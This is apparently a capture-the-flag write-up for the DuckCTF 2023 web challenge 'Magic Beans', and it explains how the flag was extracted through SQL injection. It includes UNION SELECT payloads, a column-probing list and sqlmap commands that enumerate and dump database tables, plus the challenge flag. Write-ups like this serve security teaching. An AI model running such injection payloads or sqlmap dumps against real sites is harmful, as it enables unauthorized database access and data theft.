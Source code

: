 +++
author = "Javad Hamidi"
date = "2023-08-11"
description = "Hidden beneath this strange jelly bean themed website is a flag; a flag hidden within a table aptly named Flag, and sprinkled letter-by-letter along single character columns titled 'a', 'b', 'c', 'd', ..."
tags = ["Web"]
title = "Magic Beans - DuckCTF 2023"

+++

We're presented with a largely static, single-page site - save for one input field that doesn't seem to be processed on the client side. The challenge description also draws special attention to 'columns' and 'tables'. Given that there aren't any HTML tables in the source, instinct says this might involve a database.

If we try a classic single-quote injection (`'`) we see the quote suspiciously disappear. Adding on both a semi-colon to terminate the SQL statement and a comment afterwards (`'; -- `)  we see that vanish as well! Clearly, the backend is handling this input differently from regular text.

We know from the challenge description that we need to read from a table called Flag (in the database). A good way is to tack this on to the input we're already getting (all the delicious beans) using a UNION attack. This is where some googling and trial-and-error comes in to craft just the right payload. Here's what we came up with:

```sql
' UNION ALL SELECT a, b, c, d, e FROM Flag; -- 
```

Be aware that there is some **input validation on the client side**! Submitting certain characters or too many characters may not work. Instead, try making the POST request using a tool like [Insomnia](https://insomnia.rest/) or [Postman](https://www.postman.com/).

Some notable observations about this payload:

- Make sure to have a space after the comment (` -- `), injection is finicky.
- We use `UNION ALL SELECT` instead of `UNION SELECT`, just to make sure that no duplicate rows are removed (although that's unlikely in this situation).
- We know which columns and tables to we want thanks to info from the challenge description.
- We only select five columns (`a, b, c, d, e`), since a `UNION SELECT` will only work if the number of columns appended matches the number we're already getting. Any more or any less will give us 'No results found.' indicating our payload failed. 

A good way to figure out the number of columns we need to `UNION SELECT` is to test each of the following statements, one at a time, until one works. One of these statements should succeed, even if we don't know the names of the columns/table. 

```
' UNION ALL SELECT NULL -- 
' UNION ALL SELECT NULL,NULL -- 
' UNION ALL SELECT NULL,NULL,NULL -- 
' UNION ALL SELECT NULL,NULL,NULL,NULL -- 
' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL -- 
...
```

Our functioning payload from before should give us a new bean entry at the very bottom, with the letters 'u', 'a', 'c', visible (part of the flag format `quack{}`). Nice! Rotating through the alphabet of course could give us the flag, but that seems rather tedious. Instead, we can concatenate all the columns in the table Flag in a payload like this:

```sql
~' UNION ALL SELECT NULL, CONCAT(a,b,c,d,e,f,g,h,i,j,k,l,m,n,o,p,q,r,s,t,u,v,w), NULL, NULL, NULL FROM Flag; -- 
```

Some trial-and-error tells us that columns a-w are valid. Substituting the concatenated columns into the second union-selected column instead of the first will show the flag where the bean name would usually be (in nice big letters). Adding a tilde at the beginning (`~`) is just to clear out all other search results (since none of the bean names includes a `~`).

**Flag**:  `quack{J3lly_83lly_ru5H}`

## Using sqlmap

While we can totally craft our own payloads, using an automated tool can be far easier. [Sqlmap](https://sqlmap.org/) is awesome, and allows us to solve this challenge without any of the hints given in the challenge description.

Let's take this from the top. First, let's check if injection is possible. The following command specifies the URL, the form data (which is one search parameter), and states that we are making a POST request.

```
sqlmap -u "http://chall.duckctf.com:8080/index.php" --data "search=*" -p "search" --method POST
```

The output tells us injection is possible! We can now add on `--dbs` to get the names of all databases.

```bash
sqlmap -u "http://chall.duckctf.com:8080/index.php" --data "search=*" -p "search" --method POST --dbs
```
```
...

available databases [2]:
[*] beantome
[*] information_schema
```

Other than the usual 'information_schema', 'beantome' is the only database of interest. Let's see what tables are inside ...

```bash
sqlmap -u "http://chall.duckctf.com:8080/index.php" --data "search=*" -p "search" --method POST --tables -D beantome
```
```
...

Database: beantome
[2 tables]
+-------+
| Beans |
| Flag  |
+-------+
```

Hmm, two interesting tables. I'm guessing that all our delicious bean flavours are inside 'Beans' so let's turn our attention and dump the contents of 'Flag'.

```bash
sqlmap -u "http://chall.duckctf.com:8080/index.php" --data "search=*" -p "search" --method POST --dump -T Flag -D beantome
```
```
...

Database: beantome
Table: Flag
[1 entry]
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
| a | b | c | d | e | f | g | h | i | j | k | l | m | n | o | p | q | r | s | t | u | v | w |
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
| q | u | a | c | k | { | J | 3 | l | l | y | _ | 8 | 3 | l | l | y | _ | r | u | 5 | H | } |
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
```

**Flag**:  `quack{J3lly_83lly_ru5H}`